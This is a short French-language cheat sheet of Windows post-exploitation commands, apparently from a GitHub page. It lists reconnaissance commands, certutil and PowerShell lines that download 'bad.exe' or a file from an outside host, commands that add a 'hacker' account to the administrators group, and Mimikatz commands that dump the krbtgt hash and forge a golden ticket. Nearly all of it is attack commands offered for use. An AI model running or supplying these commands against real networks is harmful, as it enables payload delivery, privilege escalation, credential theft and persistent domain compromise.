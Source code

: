 <h2>Batch</h2>
<i>systeminfo</i> → Obtenir des renseignements sur le système</br>
<i>net users /domain [username]</i> → Obtenir des renseignements sur les utilisateurs</br>
<i>tasklist</i> → Lister les processus</br>
<i>netstat -ano</i> → Liste des connexions tcp</br>
<i>dir sysprep /s /b</i> → Trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
<i>wmic qfe list</i> → Lister les patch installés (KB)</br>
<i>certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe</i> → Wget en batch</br>
<i>certutil.exe -decode bad.txt bad.exe</i> → Base64 decode en cmd</br>
<i>net user Domain/hacker hackerhacker /add</i> → Ajoute un utilisateur</br>
<i>net localgroup administrators hacker /add</i> → Ajoute un utilisateur à un groupe</br>
<i>net use k: \\srv.remote.org\c$</i> → Connexion au disque distant c sur la partition k</br>
<i>wmic useraccount where name='user'</i> → Récupère des informations sur un utilisateur (SID)</br>

<h2>Powershell</h2>
<i>{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}</i> → Wget en powershell</br>
get-WmiObject -class Win32_Share

<h2>Mimikatz</h2>
privilege::debug</br>
lsadump::lsa /inject /name:krbtgt → Récupérer le NTLM hash de krbtgt</br>
kerberos::golden /user:USER /domain:DOMAIN.LOCAL /sid:<SID de USER> /krbtgt:<NTLM hash de krbtgt> /ticket:evil.tck /ptt → Créé et inject un golden ticket à la session</br>
